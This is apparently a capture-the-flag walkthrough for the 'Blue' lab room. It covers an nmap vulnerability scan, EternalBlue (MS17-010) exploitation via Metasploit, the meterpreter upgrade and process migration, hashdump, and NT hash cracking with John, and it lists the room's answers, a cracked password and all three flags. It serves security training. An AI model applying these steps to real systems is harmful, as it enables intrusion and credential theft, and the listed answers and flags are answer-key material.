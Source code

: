 # Notes for the room "Blue"

## Tasks 


### Task 1

Running a nmap scan on the target IP: 10.10.127.11. Note the target will not respond to ping. Remember by using the `--script vuln` then you can get the vulnerabilities. 

```
nmap -sC -sV --script vuln -oN nmap/initial 10.10.127.11
```

How many ports are open with a port number under 1000?

```
3
```

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
ms17-010
```

### Task 2

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

```
search ms17-010

exploit/windows/smb/ms17_010_eternalblue
```

Show options and set the one required value. What is the name of this value? (All caps for submission)

```
info NUMBER

RHOSTS
```

### Task 3

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 


```
post/multi/manage/shell_to_meterpreter
```

Select this (use MODULE_PATH). Show options, what option are we required to change?

```
SESSION
```

Set the required option, you may need to list all of the sessions to find your target here. 

```
sessions -l
set SESSION 1
```

Found the spoolsv.exe process and migrated to that. First list processes with `ps` and migrate with `migrate ID`.

### Task 4

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

```
Jon
```

Copy this password hash to a file and research how to crack it. What is the cracked password?

```
└─$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2021-05-21 05:28) 1.351g/s 13784Kp/s 13784Kc/s 13784KC/s alqui..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

```

### Task 5

Flag1? This flag can be found at the system root. 

```
Go to the C: drive
flag{access_the_machine}
```

Flag2? This flag can be found at the location where passwords are stored within Windows.



*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.*

```
Go to c:\Windows\System32\Config\
flag{sam_database_elevated_access}
```

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

```
Go to C:\Users\Jon\Documents

meterpreter > cat flag3.txt 
flag{admin_documents_can_be_valuable}
```

